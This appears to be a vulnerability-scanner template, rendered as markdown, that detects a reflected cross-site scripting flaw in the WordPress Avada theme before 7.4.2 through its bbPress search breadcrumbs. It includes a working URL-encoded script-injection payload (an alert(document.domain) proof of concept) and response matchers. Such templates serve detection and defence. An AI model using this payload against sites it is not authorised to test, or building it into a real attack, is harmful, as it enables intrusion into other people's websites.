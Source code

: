 **Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# WordPress Avada Website Builder \<7.4.2 - Cross-Site Scripting

## Description

- WordPress Avada Website Builder prior to 7.4.2 contains a cross-site scripting vulnerability. The theme does not properly escape bbPress searches before outputting them back as breadcrumbs.
- severity - high
- tags - xss,wp,wordpress,wp-theme,avada,wpscan

## Requests

- Method - GET

### URL

- {{BaseURL}}/forums/search/z-->%22%3e%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E/

### Matchers

**Type - word**

- part - body
- words
  1. ">\</script>\<script>alert(document.domain)\</script>
  2. avada-footer-scripts
- condition - and

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---
